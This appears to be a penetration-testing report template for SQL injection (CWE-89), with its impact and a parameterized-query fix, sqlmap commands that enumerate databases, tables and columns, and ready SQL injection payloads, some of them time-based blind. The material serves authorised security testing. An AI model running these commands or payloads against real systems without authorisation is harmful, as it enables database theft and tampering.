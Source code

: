 ### SQL Injection

| Vulnerability          | SQL Injection                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|:---------------------- |:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**           | **HIGH**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Affected URL**       | <insert the affected url\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Tools**              | Burp Suite, [SQLmap](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#sqlmap)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| **Techniques/ Method** | URL Fuzzing, Parameter Tampering                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Proof of Concept**   | <insert POC screenshot\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Payload\(s\)**       | [List of possible payload](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#possible-payloads)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| **Description**        | SQL injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements that control a web application's database server.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| **Impact**             | An attacker can use SQL injection it to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| **CVE/CWE/OSVDB**      | CWE-89                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| **Recommendation**     | **Use parameterized queries when dealing with SQL queries that contains user input. Parameterized queries allows the database to understand which parts of the SQL query should be considered as user input, therefore solving SQL injection.**<br/><br/>In order for an SQL injection attack to take place, the vulnerable website needs to directly include user input within an SQL statement. An attacker can then insert a payload that will be included as part of the SQL query and run against the database server.<br/>Parameterized queries are simple to write and understand while forcing a developer to define the entire SQL statement before hand, using placeholders for the actual variables within that statement. A developer would then pass in each parameter to the query afer the SQL statement is defined, allowing the database to be able to distinguish between the SQL command and data inputted by a user. If SQL commands are inputted by an attacker, the parameterized query would treat the input as a string as opposed to an SQL command.<br/>Application developers should avoid sanitizing their input by means of escaping or removing special characters (several encoding tricks an attacker could leverage to bypass such protections) and stick to using parameterized queries in order to avoid SQL injection vulnerabilities. |
| References             | [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)<br/>[Bobby Tables: A guide to preventing SQL injection](https://bobby-tables.com/)<br/>[CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |

---

### Tools :

#### SQLmap

Reference: [Usage · sqlmapproject/sqlmap Wiki · GitHub](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

```bash
# crawl and pipe to proxy(burp)
$ sqlmap -u "http://localhost" --forms --batch --crawl=10 --level=5 --risk=3
$ sqlmap -r myapps --proxy=http://127.0.0.1:8080 --random-agent --level=5 --risk=3

# time based , mysql dbms
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbms=mysql --technique=T

# enumeration(list out databases):
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbs

# enumeration(list out tables from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db --tables

# enumeration(list out columns from sample_table from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db -T sample_table --columns
```

---

### Possible Payloads

```sql
-1' OR 3*2*1=6 AND 000666=000666 --

# time-based blind
5555' AND (SELECT 3841 FROM (SELECT(SLEEP(5)))BQTt)-- 

OfoO'||(SELECT 0x77416d57 FROM DUAL WHERE 7899=7899 AND (SELECT 1651 FROM (SELECT(SLEEP(5)))yxfO))
```
